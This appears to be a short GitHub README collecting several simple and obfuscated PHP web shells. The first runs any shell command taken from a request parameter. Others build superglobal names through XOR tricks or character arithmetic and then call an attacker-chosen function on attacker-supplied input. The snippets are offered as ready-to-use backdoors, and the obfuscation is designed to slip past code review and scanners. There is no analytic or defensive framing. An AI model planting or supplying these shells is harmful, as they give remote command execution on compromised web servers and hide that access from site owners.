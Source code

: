 # simple-and-obfuscate-PHP-shell
several list of simple and obfuscate PHP shell

```
<?= `{$_REQUEST['_']}` ?>
```
```
<?php
$_="{";
$_=($_^"<").($_^">;").($_^"/");
?>
```
```
<?=${'_'.$_}["_"](${'_'.$_}["__"]);?>
```
```
<? @$_[]=@!+_; $__=@${_}>>$_;$_[]=$__;$_[]=@_;$_[((++$__)+($__++ ))].=$_;
$_[]=++$__; $_[]=$_[--$__][$__>>$__];$_[$__].=(($__+$__)+ $_[$__-$__]).($__+$__+$__)+$_[$__-$__];
$_[$__+$__] =($_[$__][$__>>$__]).($_[$__][$__]^$_[$__][($__<<$__)-$__] );
$_[$__+$__] .=($_[$__][($__<<$__)-($__/$__)])^($_[$__][$__] );
$_[$__+$__] .=($_[$__][$__+$__])^$_[$__][($__<<$__)-$__ ];
$_=$
$_[$__+ $__] ;$_[@-_]($_[@!+_] );
?>
```

